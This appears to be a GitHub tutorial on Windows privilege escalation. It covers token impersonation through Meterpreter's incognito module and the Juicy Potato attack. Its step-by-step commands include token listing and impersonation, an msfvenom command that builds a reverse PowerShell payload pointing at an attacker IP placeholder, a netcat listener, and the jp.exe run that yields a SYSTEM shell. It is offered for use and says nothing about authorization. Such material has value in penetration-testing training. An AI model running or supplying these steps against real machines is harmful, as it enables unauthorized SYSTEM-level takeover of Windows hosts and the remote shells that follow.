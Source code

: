 # Token Impersonation (Windows Privilege Escalation)

### 🔑 What is a Token?

A **token** in Windows is like a **web cookie** — it temporarily grants access so a user doesn't need to re-enter credentials every time they access files or resources.

### 🧠 Types of Tokens

1. **Delegate Token**
    - Created during **interactive logins**
    - Example: When you log in via **Remote Desktop (RDP)** or directly at the machine
2. **Impersonation Token**
    - Created during **non-interactive logins**
    - Example: When you map a network drive or run a logon script

## **Step-by-Step Exploitation**

### **1. Get a Meterpreter Shell**

First establish a foothold on the target machine.

> ⚠️ Requires Meterpreter from Metasploit
> 

### **2. Load Incognito Module**

```
use incognito
```

### **3. List Available Tokens**

- **List available tokens:** `list_tokens -u`
- Look for **delegation** or **impersonation** tokens (especially those of admin/system users)

```
list_tokens -u
```

Example output:

```
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

### **4. Impersonate a Privileged Token**

```
impersonate_token SNEAKS.IN\\Administrator
```

*Note:* Use double backslashes (**`\\`**) in the username

### **5. Verify Your New Identity**

```
getuid
```

### **6. Get a Shell with New Privileges**

```
shell
whoami
```

You should now be running as the impersonated user!


# 🥔 Juicy Potato — Privilege Escalation via SeImpersonatePrivilege

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

### ✅ Requirements

- You already have **a shell** (or Meterpreter session) on the **target machine**
- The user must have the `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` **enabled**

### 🧪 Step-by-Step Guide

### 1️⃣ Check User Privileges

On the target machine, run:

```bash
whoami /priv
```

Look for this line:

```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!
> 

### 2️⃣ Download Juicy Potato

Download the executable from:

👉 https://github.com/ohpe/juicy-potato

Rename it (for simplicity):

```bash
jp.exe
```

Copy it to the **victim machine**.

### 3️⃣ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:

```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```

Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.

Upload `myshell.bat` to the **victim machine**.

### 4️⃣ Start Netcat Listener

On your Kali machine:

```bash
nc -nlvp <Your_Port>
```

### 5️⃣ Run Juicy Potato Exploit

On the victim machine:

```bash
jp.exe -t * -p myshell.bat -l 4444
```

- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result

You should now get a **reverse shell as SYSTEM** on your Netcat listener!
